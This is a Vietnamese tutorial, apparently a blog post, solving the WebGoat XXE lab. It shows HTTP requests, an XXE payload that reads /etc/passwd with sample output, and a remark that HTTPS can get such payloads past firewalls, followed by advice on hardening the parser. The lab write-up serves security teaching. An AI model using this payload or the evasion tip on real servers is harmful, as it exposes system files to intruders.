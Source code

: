 ```yaml
---
title: 1.08 | XXE
slug: XXE-08
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> **XXE Injection – Assignment Solution**  

## **1. Mục tiêu bài tập**  
Bài tập này kiểm tra xem API có bị **tấn công XXE (XML External Entity)** hay không.  

- Ứng dụng có vẻ chỉ chấp nhận JSON, nhưng nếu ta thử gửi **XML**, API có thể vẫn xử lý được.  
- Nếu ứng dụng sử dụng trình phân tích XML mà không bảo vệ đúng cách, có thể khai thác để đọc file từ hệ thống backend.  


## **2. Phân tích request ban đầu**  

Khi nhập một comment vào ứng dụng, nó gửi request sau:  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/json

{"text":"My first comment"}
```
Đây là một request hợp lệ và API xử lý bình thường.  


## **3. Thử đổi Content-Type sang XML nhưng vẫn gửi JSON**  

Bây giờ thử đổi `Content-Type` thành `application/xml` nhưng vẫn gửi JSON:  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

{"text":"My first comment"}
```
💥 **Lỗi nhận được:**  

```
javax.xml.bind.UnmarshalException\n - with linked exception:
[javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,1]
Message: Content is not allowed in prolog.
```
🔍 **Phân tích lỗi:**  
- API đang dùng trình phân tích XML, nhưng ta lại gửi JSON.  
- JSON bắt đầu bằng `{`, trong khi XML mong đợi ký tự `<`, dẫn đến lỗi parse.  


## **4. Gửi request XML hợp lệ**  

Thay vì JSON, ta gửi một request XML hợp lệ:  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<text>This is my first message</text>
```
💥 **Lỗi nhận được:**  

```
javax.xml.bind.UnmarshalException\n - with linked exception:
[com.sun.istack.SAXParseException2; lineNumber: 1; columnNumber: 7;
unexpected element (uri:"", local:"text").
Expected elements are <{}comment>]
```
🔍 **Phân tích lỗi:**  
- API mong đợi **thẻ `<comment>`**, nhưng ta chỉ gửi `<text>`.  

✔ **Sửa lại request theo đúng format mong đợi:**  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<comment><text>This is my first message</text></comment>
```
✅ **Kết quả:** API xử lý thành công và comment hiển thị trên WebGoat.  


## **5. Tấn công XXE Injection**  

Nếu trình phân tích XML không chặn **DOCTYPE**, ta có thể khai thác XXE để đọc file hệ thống.  

🚨 **Payload XXE Injection:**  

```http
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<!DOCTYPE user [<!ENTITY root SYSTEM "file:///etc/passwd">]>
<comment><text>&root; This is my first message</text></comment>
```
💥 **Giải thích payload:**  
1. **DOCTYPE user**: Định nghĩa một thực thể (entity) tên `root`.  
2. **SYSTEM "file:///etc/passwd"**: Trỏ entity `root` đến file **`/etc/passwd`** trên máy chủ backend.  
3. **&root;**: Khi API xử lý XML, nó thay `&root;` bằng nội dung của file `/etc/passwd`.  


## **6. Kết quả mong đợi khi khai thác XXE**  
Nếu hệ thống dễ bị tấn công, phản hồi có thể chứa nội dung `/etc/passwd` như:  

```xml
<comment><text>
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
</text></comment>
```
**📌 Nếu request bị chặn:**  
- Một số firewall của công ty có thể phát hiện payload này và chặn request.  
- Nhưng nếu dùng **HTTPS**, request sẽ được mã hóa và có thể vượt qua bảo vệ mạng.  


## **7. Phòng chống XXE Injection**  

### **1️⃣ Cấu hình trình phân tích XML an toàn**  
Trong Java (Spring Boot), tắt `DOCTYPE` và `ENTITY` khi parse XML:  

```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
DocumentBuilder builder = factory.newDocumentBuilder();
```

### **2️⃣ Chuyển sang JSON thay vì XML**  
Nếu ứng dụng không cần XML, nên **chỉ hỗ trợ JSON** để tránh rủi ro.  

### **3️⃣ Kiểm tra dữ liệu đầu vào**  
- Dùng **whitelist** để chỉ cho phép các thẻ XML hợp lệ.  
- Chặn mọi request có `<!DOCTYPE>`.  


## **8. Kết luận**  
- **XXE Injection** có thể khai thác lỗ hổng của API để đọc file hệ thống.  
- **Thử nghiệm trên WebGoat:**  
  - Đổi `Content-Type` sang XML để kiểm tra xem API có xử lý XML không.  
  - Gửi payload XXE để kiểm tra khả năng đọc file hệ thống.  
- **Phòng chống:**  
  - Tắt hỗ trợ `DOCTYPE` và `ENTITY`.  
  - Chỉ hỗ trợ JSON nếu có thể.  
  - Kiểm tra chặt chẽ dữ liệu đầu vào.  

